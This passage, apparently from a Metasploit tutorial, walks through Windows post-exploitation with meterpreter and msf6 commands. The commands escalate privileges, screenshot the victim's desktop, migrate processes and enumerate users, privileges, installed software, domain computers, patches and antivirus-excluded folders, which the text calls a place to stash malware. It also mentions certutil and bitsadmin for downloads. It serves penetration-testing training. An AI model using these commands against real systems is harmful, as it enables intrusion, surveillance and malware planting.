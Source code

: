 Ok, for Windows the process is very similar. Just change wget and curl for Invoke-WebRequest, certutil and bitsadmin.
Enjoy :)


<a id=7.2></a>
## Windows Post-exploitation

We'll focus on the Windows post-exploitation modules. Let's begin exploring.

We can use these post exploitation modules to enumerate information about the Windows system
we're currently in:

- Enumerate logged on users
- Enumerate user privileges
- VM check
- Enumerate installed programs
- Enumerate AVs
- Enumerate computers connected to domain
- Enumerate installed patches
- Enumerate shares
- And more...

```bash
# assume we're already in a machine and deep into the exploitation phase.
meterpreter > getsystem
# in Windows systems, you can try to use this command to escalate your privileges.
# the stadapi is a lot better here imo, so give it a shot.
meterpreter > screenshot
# take a screenshot of the victim's desktop
meterpreter > show_mount
# list of mounted drives
meterpreter > ps
# get process tree
meterpreter > migrate -N [PROCESS_NAME]
# migrate to process_name
meterpreter > migrate [PID]
# migrate to PID
msf6 > use post/windows/manage/archmigrate
msf6 post(windows/manage/archmigrate) > set EXE C:\path\to\executable.exe
# change the executable you want to migrate arch to
msf6 post(windows/manage/archmigrate) > set SESSION [SESSION_ID]
# pick [SESSION_ID]
msf6 post(windows/manage/archmigrate) > use post/windows/gather/win_privs
msf6 post(windows/gather/win_privs) > set SESSION [SESSION_ID]
msf6 post(windows/gather/win_privs) > run
# similar to getprivs
msf6 post(windows/gather/enum_logged_on_users) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_logged_on_users) > run
# enum logged on and recently logged on users
msf6 post(windows/gather/checkvm) > set SESSION [SESSION_ID]
msf6 post(windows/gather/checkvm) > run
# check if your target is a VM
msf6 post(windows/gather/enum_applications) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_applications) > run
# enum apps, simpull
msf6 post(windows/gather/enum_applications) > loot
# will give you a list of the info you have on the system :)
msf6 post(windows/gather/enum_av_excluded) > set SESSION [SESSION_ID]
# check if excluded folders exist. if so, you have a place to put your malwaar in :)
msf6 post(windows/gather/enum_computers) > set SESSION [SESSION_ID]
# if the machine is part of a domain, you'll get a nice list of pcs :)
msf6 post(windows/gather/enum_patches) > set KB [KB_PATCHES]
# try to get a list of concise patches for Windows, will be useful later
msf6 post(windows/gather/enum_patches) > set SESSION [SESSION_ID]
```
